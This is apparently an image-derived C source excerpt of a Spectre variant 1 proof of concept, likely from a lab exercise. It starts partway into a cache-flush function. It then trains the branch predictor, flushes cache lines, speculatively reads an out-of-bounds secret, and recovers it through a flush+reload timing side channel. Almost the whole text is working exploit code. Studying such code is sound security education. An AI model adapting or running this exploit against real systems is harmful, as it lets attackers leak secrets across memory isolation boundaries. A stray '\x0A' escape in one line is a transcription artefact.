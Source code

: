 ```c
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
        printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d(%c).\n",i, i);
    }
  } 
}
void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
      restrictedAccess(i); 
  }
  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(index_beyond);  
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);\x0A  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}

```
